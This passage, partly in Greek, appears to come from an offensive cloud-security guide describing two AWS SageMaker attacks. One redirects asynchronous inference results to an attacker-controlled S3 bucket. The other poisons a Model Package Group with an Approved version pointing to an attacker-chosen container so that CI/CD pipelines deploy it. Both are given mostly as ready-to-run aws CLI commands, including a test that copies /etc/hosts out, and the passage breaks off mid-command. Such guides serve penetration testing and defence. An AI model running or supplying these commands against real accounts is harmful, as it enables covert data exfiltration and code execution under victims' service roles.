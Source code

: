 ```bash
{"OutputConfig": {"S3OutputPath": "s3://$BUCKET/async-out/", "S3FailurePath": "s3://$BUCKET/async-fail/"}}
JSON
aws sagemaker create-endpoint-config --region $REGION   --endpoint-config-name "$NEWCFG"   --production-variants file:///tmp/pv.json   --async-inference-config file:///tmp/async_cfg.json
aws sagemaker update-endpoint --region $REGION --endpoint-name "$EP" --endpoint-config-name "$NEWCFG"
aws sagemaker wait endpoint-in-service --region $REGION --endpoint-name "$EP"
```
4) Προκαλέστε μια async invocation και επαληθεύστε ότι τα αντικείμενα καταλήγουν στο attacker S3
```bash
aws s3 cp /etc/hosts s3://$BUCKET/inp.bin
aws sagemaker-runtime invoke-endpoint-async --region $REGION --endpoint-name "$EP" --input-location s3://$BUCKET/inp.bin >/tmp/async.json || true
sleep 30
aws s3 ls s3://$BUCKET/async-out/ --recursive || true
aws s3 ls s3://$BUCKET/async-fail/ --recursive || true
```
### Επιπτώσεις
- Ανακατευθύνει τα ασύγχρονα αποτελέσματα inference (και τα σώματα σφαλμάτων) σε attacker-controlled S3, επιτρέποντας μυστική εξαγωγή των predictions και ενδεχομένως ευαίσθητων pre/post-processed inputs που παράγει το container, χωρίς αλλαγή του model code ή image και με ελάχιστο/καθόλου downtime.


## SageMaker Model Registry supply-chain injection via CreateModelPackage(Approved)

If an attacker can CreateModelPackage on a target SageMaker Model Package Group, they can register a new model version that points to an attacker-controlled container image and immediately mark it Approved. Many CI/CD pipelines auto-deploy Approved model versions to endpoints or training jobs, resulting in attacker code execution under the service’s execution roles. Cross-account exposure can be amplified by a permissive ModelPackageGroup resource policy.

### Απαιτήσεις
- IAM (minimum to poison an existing group): `sagemaker:CreateModelPackage` on the target ModelPackageGroup
- Προαιρετικό (για να δημιουργήσει μια group αν δεν υπάρχει): `sagemaker:CreateModelPackageGroup`
- S3: Read access to referenced ModelDataUrl (or host attacker-controlled artifacts)
- Στόχος: A Model Package Group that downstream automation watches for Approved versions

### Βήματα
1) Set region and create/find a target Model Package Group
```bash
REGION=${REGION:-us-east-1}
MPG=victim-group-$(date +%s)
aws sagemaker create-model-package-group --region $REGION --model-package-group-name $MPG --model-package-group-description "test group"
```
2) Προετοιμάστε δειγματικά δεδομένα μοντέλου στο S3
```bash
ACC=$(aws sts get-caller-identity --query Account --output text)
BUCKET=ht-sm-mpkg-$ACC-$(date +%s)
aws s3 mb s3://$BUCKET --region $REGION
head -c 1024 </dev/urandom > /tmp/model.tar.gz
aws s3 cp /tmp/model.tar.gz s3://$BUCKET/model/model.tar.gz --region $REGION
```
3) Καταχώριση μιας malicious (εδώ benign) Approved model package version που αναφέρεται σε μια δημόσια AWS DLC image
```bash
IMG="683313688378.dkr.ecr.$REGION.amazonaws.com/sagemaker-scikit-learn:1.2-1-cpu-py3"
cat > /tmp/inf.json << JSON
{
"Containers": [
```